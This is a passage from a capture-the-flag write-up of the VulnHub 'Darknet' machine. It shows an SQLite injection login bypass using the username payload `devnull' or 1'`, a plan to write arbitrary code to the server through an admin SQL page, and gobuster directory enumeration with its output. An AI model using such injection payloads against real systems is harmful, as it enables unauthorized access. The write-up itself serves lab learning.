 ```
root@kali:~/data/VulnHub/Darknet# sqlite3
SQLite version 3.8.10.2 2015-05-20 18:17:19
Enter ".help" for usage hints.
Connected to a transient in-memory database.
Use ".open FILENAME" to reopen on a persistent database.
sqlite> SELECT 1;
1
sqlite>
```

With this knowledge, we can imagine that we could have the final query the software will execute look something like this:

```
SELECT * FROM users WHERE user='a user' or '1' and pass='<MD5 OF PASS>'
```

In other words, if the injection point is in the `user` section, the payload we need to execute may be derived as follows:

`SELECT * FROM users WHERE user='` **a user' or '1** `' and pass='<MD5 OF PASS>'`

This obviously begs the requirement to have knowledge of a valid user! Well, remember that Apache Virtual host config file? It mentioned that the server admin is `devnull@darknet.com`. Admittedly, this took me a while to get to (and maybe a bit of a cheat :P), but using a username of `devnull` will complete the requirements we have to bypass the authentication needed for this page.

Considering the injection point and theorized query, we can use a username of `devnull' or 1'` and any password to login.

## administrator sql shell
After the login bypass, I was presented with a page titled **Administrador SQL**.

{{< figure src="/images/darknet_888_administrator_sql.png" >}}

I tried a few queries but quickly realized that no output was returned no matter what you gave it.

While researching some of the possibilities with SQLite injection, I came across [this](http://gwae.trollab.org/sqlite-injection.html) blogpost that details a method of writing arbitrary code to a file of our choosing (obviously assuming we have write access there). Considering I had a fictitious *SQL shell* now, I jumped right into trying this.

The first thing I needed to do though was to find a writable directory. The blogpost mentions that `uploads/` and `cache/` are usually good candidates (and rightfully so), but it did not seem like the paths existed at http://888.darknet.com/uploads/ and http://888.darknet.com/cache/. So I pulled up `gobuster` again to see if there are any other directories I could potentially use for this.

```
root@kali:~/data/VulnHub/Darknet# gobuster -u http://888.darknet.com/ -w /usr/share/wordlists/wfuzz/general/common.txt

Gobuster v1.1                OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://888.darknet.com/
[+] Threads      : 10
[+] Wordlist     : /usr/share/wordlists/wfuzz/general/common.txt
[+] Status codes : 302,307,200,204,301
=====================================================
/css (Status: 301)
/img (Status: 301)
/includes (Status: 301)
=====================================================
```
